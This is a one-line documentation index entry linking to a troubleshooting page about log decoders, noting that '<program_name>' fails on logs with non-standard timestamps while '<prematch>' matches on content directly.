- [Decoder prematch fix](troubleshooting/decoder-prematch-fix.md) — `<program_name>` fails for logs with non-standard timestamps; `<prematch>` matches on content directly
